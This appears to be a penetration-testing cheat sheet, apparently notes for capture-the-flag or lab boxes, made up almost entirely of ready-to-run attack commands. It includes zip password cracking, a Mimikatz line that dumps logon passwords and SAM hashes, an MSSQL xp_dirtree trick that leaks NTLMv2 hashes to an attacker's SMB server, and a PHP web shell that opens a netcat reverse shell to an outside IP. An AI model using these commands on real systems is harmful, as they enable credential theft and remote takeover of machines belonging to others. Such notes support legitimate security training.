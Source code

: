 # Cracking zip file
- `fcrackzip -v -u -D -p <wordlist> <ZIP FILE>`

# Mimikatz
`mimi.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"`

# Downloading from SMBClient
- turn prompt off using `prompt off`
- `recurse on`
- `mget *`

# Pulling down mssql NTLMv2 hash
start an smbserver and in the mssql console run `exec xp_dirtree '\\<attacker ip>\<share name>\',1,1` then check the smb server for the hash

# SMBClient
List shares: `smbclient -L \\\\<IP>\\`

Connect without a password: `smbclient --no-pass -N //<IP>/Backups`

# Mount remote share
`sudo apt install libguestfs-tools`

`sudo apt install cifs-utils`

`sudo mkdir /mnt/remote`

`mount -t cifs //<IP>/Backups /mnt/remote -o rw`

# SMBClient to shell

If you are able to access a share you can write to and that share is for a website then you can get a shell by uploading `nc.exe` to the share as well as a malicious `php` file with the following code:

```php
<?php system('nc.exe -e cmd.exe 10.10.14.12 9001') ?>
```

Go to the website and navigate to the `php` file while you have a listener running